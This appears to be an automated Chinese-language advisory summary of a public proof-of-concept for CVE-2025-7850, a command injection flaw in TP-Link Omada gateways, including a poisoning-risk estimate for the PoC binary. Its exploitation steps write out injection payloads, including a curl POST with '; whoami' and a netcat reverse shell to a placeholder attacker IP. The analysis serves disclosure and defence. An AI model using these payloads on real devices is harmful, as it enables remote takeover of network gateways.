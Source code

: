 ## CVE-2025-7850 - Omada Gateway OS Command Injection

**漏洞编号:** CVE-2025-7850

**漏洞类型:** OS Command Injection

**影响应用:** TP-Link Omada Gateways

**危害等级:** 高危，可能导致系统完全控制、数据泄露和拒绝服务

**影响版本:** ER8411 < 1.3.3, ER7412-M2 < 1.1.0, ER707-M2 < 1.3.1, ER7206 < 2.2.2, ER605 < 2.3.1, ER706W < 1.2.1, ER706W-4G < 1.2.1, ER7212PC < 2.1.3, FR365 < 1.1.10, FR205 < 1.0.3, FR307 < 1.2.5, G36 < 1.1.4, G611 < 1.2.2

**利用条件:** 需要管理员权限认证后的web portal访问

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2025-7850是一个存在于TP-Link Omada网关中的操作系统命令注入漏洞。经过身份验证的管理员可以通过Web Portal利用此漏洞执行任意系统命令。根据漏洞库信息，受影响的版本包括但不限于ER8411 1.3.3之前的版本，ER7412-M2 1.1.0之前的版本等。利用方式是，攻击者登录到web管理界面，然后在system tools > diagnostics 模块中注入恶意命令。

POC代码提供了一个实验室环境来模拟该漏洞。攻击者可以修改`start-exploit.bat` 脚本，并使用`omada-gateway-vuln.exe` 向 `/diagnostics` 端点发送包含恶意命令的POST请求，例如 `curl -X POST http://localhost:8080/diagnostics -d "cmd=ping 127.0.0.1; whoami"`。

**有效性评估：**

提供的POC代码有效，它提供了一个可用于验证和理解该漏洞的实验室环境。

**投毒风险评估：**

从提供的README.md的内容来看，主要风险点在于`omada-gateway-vuln.exe`这个二进制文件。 虽然代码声称仅用于演示目的，但仍存在以下潜在的投毒风险：

1.  **后门植入：** `omada-gateway-vuln.exe`可能包含额外的恶意代码，在用户不知情的情况下执行其他操作，例如收集系统信息、建立反向shell或下载恶意payload。
2.  **依赖项陷阱：** 虽然没有直接提及依赖项，但如果`omada-gateway-vuln.exe`依赖于外部库，这些库可能会被篡改以包含恶意代码。

由于无法直接检查`omada-gateway-vuln.exe`的内容，只能从静态分析的角度进行推测。考虑到这是为一个虚构的漏洞创建的实验室环境，**投毒风险相对较低，大约为10%**。然而，用户在实际使用前仍应保持警惕，并对`omada-gateway-vuln.exe`进行安全分析。

**利用方式总结：**

1.  攻击者首先需要拥有Omada网关的管理员权限。
2.  登录到网关的Web管理界面。
3.  导航到诊断工具（System Tools > Diagnostics）页面。
4.  在输入字段中构造包含恶意命令的payload，例如`; whoami`或`; nc -e /bin/sh <attacker_ip> <attacker_port>`。
5.  利用POC提供的`start-exploit.bat`和`omada-gateway-vuln.exe`简化payload发送流程，通过POST请求将恶意命令发送到`/diagnostics`端点。
6.  服务器执行注入的命令，攻击者可以通过响应或反向shell获取执行结果。


**项目地址:** [ByteHawkSec/CVE-2025-7850-POC](https://github.com/ByteHawkSec/CVE-2025-7850-POC)

**漏洞详情:** [CVE-2025-7850](https://nvd.nist.gov/vuln/detail/CVE-2025-7850)